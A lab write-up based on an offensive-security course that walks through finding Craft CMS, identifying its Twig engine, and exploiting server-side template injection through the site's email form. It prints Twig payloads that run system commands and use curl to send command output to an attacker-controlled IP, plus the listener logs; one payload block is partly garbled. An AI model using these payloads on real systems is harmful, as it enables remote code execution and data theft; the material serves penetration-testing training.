



---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Case Study: Craft CMS

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

The source code of the web application contains some clues. More specifically, it discloses that the **Craft CMS** is used and the use of `[]` in the `name` attribute of the `input` field indicates the usage of the **PHP** programming language (Figure 1).

<figure><figcaption><p>Figure 1: Inspecting the source code of the homepage.</p></figcaption></figure>

Performing a dirbusting with [`ffuf`](broken-reference) , we find that there is an `/admin` directory which further confirms that we are using the Craft CMS (Figure 2).


```bash
$ ffuf -u 'http://craft/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -c -ic -ac
<SNIP>

index          [Status: 200, Size: 56254, Words: 12711, Lines: 740, Duration: 2847ms]
admin          [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3572ms]
logout         [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 3448ms]
```


<figure><figcaption><p>Figure 2: The <code>/admin</code> directory validates the usage of the Craft CMS.</p></figcaption></figure>

The home page of the web application provides a way to send an email to the site's administrator. **Emails are great targets for SSTI** as they consist of mainly generic elements which are then tailored to the user using a templating engine. Searching for "[_Craft CMS templating engine_](https://www.google.com/search?client=firefox-b-e\&q=craft+cms+templating+engine)" reveals that [Twig](twig.md) is used (Figure 3).

<figure><figcaption><p>Figure 3: Enumerating Craft's templating engine.</p></figcaption></figure>

We can send an email containing a Twig-specific payload to form an out-of-band communication.

```twig
{{[0]|reduce('system','curl http://192.168.45.155:7331/hello')}}
```

When we send the email the payload is executed and we receive a response back.


```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:01:27] code 404, message File not found
192.168.152.105 - - [15/Aug/2024 17:01:27] "GET /hello HTTP/1.1" 404 -
```


To exfiltrate data in Twig, we use the [tilde character](https://twig.symfony.com/doc/3.x/templates.html#other-operators) (`~`) for string concatenation, which allows us to append the exfiltrated data to a `GET` request and the [`set`](https://twig.symfony.com/doc/3.x/tags/set.html) tag to declare variables. Additionally, we apply the [`url_encode`](https://twig.symfony.com/doc/3.x/filters/url_encode.html) method method to the `exfil` variable to ensure our payload is properly URL-encoded.

```bash


{{[0]|reduce('system','whoami')}}
}



{{[0]|reduce('system','curl http://192.168.45.155:7331/?exfil=' ~ exfil)}}
```

In the response, we confirm that we have achieved RCE.


```bash
$ python3 -m http.server 7331
Serving HTTP on 0.0.0.0 port 7331 (http://0.0.0.0:7331/) ...
192.168.152.105 - - [15/Aug/2024 17:45:00] "GET /?exfil=%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A HTTP/1.1" 200 -

# URL-decoding the exfiltrated data
$ echo "%3Cbr%20%2F%3E%0Awww-data%0Awww-data%3Cbr%20%2F%3E%0A" | python3 -c 'import sys;from urllib.parse import unquote;print(unquote(sys.stdin.read()));'
<br />
www-data
www-data<br />
```

